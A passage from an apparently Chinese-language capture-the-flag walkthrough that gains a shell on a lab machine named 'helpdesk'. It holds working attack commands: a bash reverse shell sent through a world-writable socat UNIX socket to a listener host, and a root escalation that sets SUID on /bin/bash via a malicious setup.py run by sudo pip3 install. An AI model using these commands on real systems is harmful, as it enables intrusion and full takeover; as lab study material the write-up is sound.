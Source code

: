 **知识点补充：socat 与 UNIX Socket**

*   **socat**：是一个强大的网络工具，堪称netcat的增强版。 它的核心功能是在两个数据流之间建立一个双向通道。 这些数据流可以是文件、管道、设备、TCP/UDP套接字，甚至是执行的程序。
*   **UNIX Socket**：这是一种在同一台机器上的进程间通信（IPC）机制。 它不经过网络协议栈，而是通过文件系统进行通信，因此效率更高。
*   **漏洞分析**：`serve.sh` 脚本以 `helpdesk` 用户身份运行，并使用 `socat` 创建了一个名为 `helpdesk.sock` 的UNIX套接字。 关键在于 `mode=777` 参数，它使得任何用户都对这个socket文件有读、写、执行权限。当有数据发送到这个socket时，`EXEC:/opt/helpdesk-socket/handler.sh` 会被触发，`handler.sh` 会将接收到的数据作为命令直接用 `/bin/bash -c` 执行。

利用这个漏洞，将一个反弹shell的命令通过 `socat` 发送到 `helpdesk.sock`，从而以 `helpdesk` 用户权限执行。

在Kali上重新监听8888端口，然后在 `www-data` shell中执行：

```bash
www-data@helpdesk:/opt/helpdesk-socket$ echo "/bin/bash -i >& /dev/tcp/192.168.205.128/8888 0>&1" | socat - /opt/helpdesk-socket/helpdesk.sock
```

成功获得 `helpdesk` 用户的shell。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.142] 53106
...
helpdesk@helpdesk:/$ id
uid=1001(helpdesk) gid=1001(helpdesk) groups=1001(helpdesk)
```

## **2. helpdesk -> root**

使用 `sudo -l` 查看 `helpdesk` 用户的sudo权限。

```bash
helpdesk@helpdesk:/$ sudo -l
...
User helpdesk may run the following commands on helpdesk:
    (ALL) NOPASSWD: /usr/bin/pip3 install --break-system-packages *
```

发现 `helpdesk` 用户可以免密以root权限执行 `pip3 install` 命令。这是一个已知的提权向量。 当`pip install`安装一个本地目录时，它会执行该目录下的`setup.py`文件。 因此，我们可以创建一个恶意的`setup.py`文件，在其中包含提权命令。

创建一个包含提权payload的 `setup.py` 文件，该payload会给 `/bin/bash` 添加SUID权限。

```bash
helpdesk@helpdesk:~$ mkdir 1;cd 1
helpdesk@helpdesk:~/1$ echo 'import os; os.system("chmod +s /bin/bash")' > setup.py
helpdesk@helpdesk:~/1$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

使用 `sudo` 执行 `pip3 install` 来安装当前目录。

```bash
helpdesk@helpdesk:~/1$ sudo /usr/bin/pip3 install --break-system-packages .
Processing /home/helpdesk/1
  Preparing metadata (setup.py) ... done
...
helpdesk@helpdesk:~/1$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```
